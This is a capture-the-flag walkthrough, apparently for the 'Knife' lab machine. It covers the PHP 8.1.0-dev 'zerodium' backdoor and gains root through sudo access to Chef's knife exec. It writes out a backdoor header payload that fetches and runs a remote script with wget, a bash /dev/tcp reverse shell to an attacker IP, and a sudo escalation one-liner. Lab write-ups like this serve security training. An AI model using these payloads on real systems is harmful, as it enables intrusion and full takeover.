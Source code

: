 ![KNIFE](banner.png)
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User

The website unfortunately doesn't give you much. And finding this foothold will 100% takes the longest time for you. However when you look at the HTTP response in BurpSuite for example you might notice something strange about the php version. It says PHP/8.1.0-dev . Dev-versions often contain bugs or vulnerabilities that are not ment for public deployment.  

After researching we stumbled on this article: https://www.welivesecurity.com/2021/03/30/backdoor-php-source-code-git-server-breach/
and this one shortly after: https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server/

So attackers implemented a backdoor that can be used to execute php code which follows `zerodium` in the User-Agentt (mind the double T) Header of the http request to the server. We can use that to spawn a reverse shell when we send a http GET request containing this:

```
User-Agentt: zerodium exec("wget http://10.10.14.89:1234/shell.sh -O /tmp/shell.sh && bash /tmp/shell.sh");
```
make sure to host `python3 -m http.server 1234` and listen on 4242 depending on what you wrote in your shell.sh:

```
bash -i >& /dev/tcp/10.10.14.89/4242 0>&1
```


## Root

Root however is pwn in two minutes:

```
james@knife:/$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

so apparently we can use the ruby gem chef knife command as root.
Great it also has an exec parameter: https://docs-archive.chef.io/release/12-13/knife_exec.html

so we can simply run:

```
sudo /usr/bin/knife exec -E "exec '/bin/sh'"
```

to spawn a new shell with elevated privileges.
